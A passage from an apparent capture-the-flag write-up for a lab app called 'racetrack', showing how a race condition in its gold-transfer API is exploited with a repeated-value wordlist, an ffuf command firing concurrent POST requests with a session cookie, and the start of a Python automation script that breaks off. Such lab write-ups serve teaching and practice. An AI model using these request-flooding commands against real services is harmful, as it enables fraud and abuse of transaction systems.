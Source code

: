 ```node
X-Powered-By: Express
```

Seeing the header `X-Powered-By: Express` in a response means the web server is running on **Express.js**, a popular web application framework for **Node.js**.

Since the application's named `racetrack`, we can search for something related:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250612152600.png)

As seen, there's only race conditions for this, if we investigate further, we can find the package too:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250612152928.png)




# EXPLOITATION
---

If we go back to the proxy, we can check the format of the request:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250612153022.png)

As seen, we need the cookie of our user, the amount and the username of the account who's receiving the gold, we can exploit the race condition using a fuzzer such as `wfuzz` or `ffuf` in this case, get the `cookie`, we also need to create a wordlist in which `1` is repeated a bunch of times, let's do it, you can use the following bash command:

```bash
yes 1 | head -n 1000 > race_wordlist.txt
```

Now, here comes our ffuf command:

```bash
ffuf -c -u http://racetrack.thm/api/givegold -X POST -w race_wordlist.txt -H "Content-Type: application/x-www-form-urlencoded" -b "connect.sid=s%3AEDovzkVYcSpKHzvGEfSU6iAYygzwMrbs.hc2XrqJb%2FSJktcRYPA5faZA0DbBhGaSST1%2BqE%2Fc7PNI" -d "user=test2&amount=FUZZ"
```


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250612153415.png)

We will see all the requests being made, what we need to do now is check `test2` account:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250612153459.png)

As seen, we receive more gold that we have on our `test` account, the race condition exists and is exploitable, we can perform the same ffuf increasing the gold amount we are sending to a further quantity or, simply automate the deed with python as we usually do:

```python
#!/usr/bin/env python3

import grequests
import requests
from bs4 import BeautifulSoup
from colorama import init, Fore, Style

# Initialize colorama for cross-platform colored text
init(autoreset=True)

# ======== CONFIGURATION ========
TARGET_HOST = "racetrack.thm"
USERS = {
    "acc1": "acc1",
```